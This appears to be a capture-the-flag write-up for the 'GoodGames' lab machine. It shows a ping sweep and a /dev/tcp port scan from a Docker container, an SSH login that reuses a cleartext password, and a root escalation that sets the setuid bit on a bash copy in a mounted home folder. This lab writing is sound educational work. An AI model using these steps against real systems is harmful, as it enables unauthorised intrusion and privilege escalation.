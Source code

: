 ### Exploring shell
 * This is a docker container:
```Console
root@3a453ab39d3d:/backend# mount | grep "augustus"
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```
 * Checking for local IP connections:
```Console
root@3a453ab39d3d:/backend# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.052 ms
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.085 ms
```
 * Checking for open ports:
```Console
root@3a453ab39d3d:/backend# for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
22 open
80 open
```
 * SSH using `augustus` as the username and checked for password reuse
```Console
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator
```
 * Grabbed `user.txt`

### Accessed the goodgames.htb server
```Console
augustus@GoodGames:/$ cd root
-bash: cd: root: Permission denied
augustus@GoodGames:/$ sudo -l
-bash: sudo: command not found
augustus@GoodGames:/$ hostname -I
10.129.96.71 172.17.0.1 172.19.0.1 dead:beef::250:56ff:feb9:779e
```
 * Docker check:
```Console
augustus@GoodGames:/$ ps auxww | grep "docker"
root       745  0.0  2.1 1457424 86460 ?       Ssl  19:20   0:02 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root      1088  0.0  0.2 1148904 9580 ?        Sl   19:20   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085
```
 * Copied `/bin/bash` to `augustus` while on the host.
 * Changed the permissions of `bash` while logged into the docker container:
```Console
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/backend# cd home
bash: cd: home: No such file or directory
root@3a453ab39d3d:/backend# cd /home
root@3a453ab39d3d:/home# ls
augustus
root@3a453ab39d3d:/home# cd augustus/
root@3a453ab39d3d:/home/augustus# ls
bash  user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4777 bash
```